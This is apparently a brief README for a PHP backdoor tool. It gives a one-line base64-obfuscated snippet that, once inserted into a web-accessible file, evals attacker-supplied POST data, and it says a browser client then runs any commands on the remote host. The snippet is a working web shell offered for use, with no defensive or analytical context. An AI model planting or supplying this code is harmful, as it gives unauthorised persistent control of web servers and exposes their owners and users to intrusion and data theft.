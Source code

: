 Backdoor
========

  Insert in document to which you have direct access from the browser, the following code

    <?eval(base64_decode('aWYoaXNzZXQoJF9QT1NUWychJ10pKWV4aXQoZXZhbChiYXNlNjRfZGVjb2RlKCRfUE9TVFsnISddKSkpOw=='))?>

  Open backdoor client in the browser to execute any the commands on remote host
